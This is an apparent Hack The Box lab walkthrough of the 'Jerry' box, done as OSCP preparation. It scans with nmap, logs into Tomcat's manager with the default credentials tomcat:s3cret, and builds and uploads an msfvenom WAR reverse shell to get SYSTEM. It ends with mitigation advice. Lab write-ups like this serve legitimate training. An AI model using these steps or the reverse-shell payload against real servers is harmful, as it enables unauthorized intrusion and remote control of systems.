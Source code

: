 ```yaml
---
title: Jerry
date: 2025-04-21
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB] 
image: jerry.jpg
media_subpath: /assets/img/posts/2025-04-21-jerryHTB/
---
```

## Introduction
In this walkthrough we will be solving Hack The Box Easy Windows box Jerry. Let’s start ..

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

…

## Web

### Port 8080

Apache tomcat coyote JSP engine 1.1

### Exploitation

I tried default credentials to get access to web manager and did that:

![image.png](image%203.png)

`tomcat:s3cret` worked.

Now we are gonna upload war file and try to get code execution:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=80 -f war > shell.war
```

I have uploaded war file:

![image.png](image%204.png)

 and then executed it 

![image.png](image%205.png)

Got code execution as nt authrority\system!

![image.png](image%206.png)

## Mitigation

- **Disable Default Credentials**
    
    Immediately remove or change default credentials such as `tomcat:s3cret`. Use strong, unique passwords for all admin accounts.
    
- **Restrict Access to the Manager Interface**
    
    Limit access to `/manager` and other administrative endpoints by IP whitelisting, VPN access, or proper firewall rules to ensure only trusted sources can reach them.
    
- **Deploy Role-Based Access Control (RBAC)**
    
    Avoid giving manager-script or manager-gui roles to accounts unless absolutely necessary. Use the principle of least privilege.
    
- **Keep Tomcat Updated**
    
    Ensure Tomcat and its components are always updated to the latest stable version to patch known vulnerabilities.
    
- **Monitor and Audit Uploads**
    
    Disable or strictly control WAR file deployment via the web interface. Monitor Tomcat logs for suspicious uploads or executions.
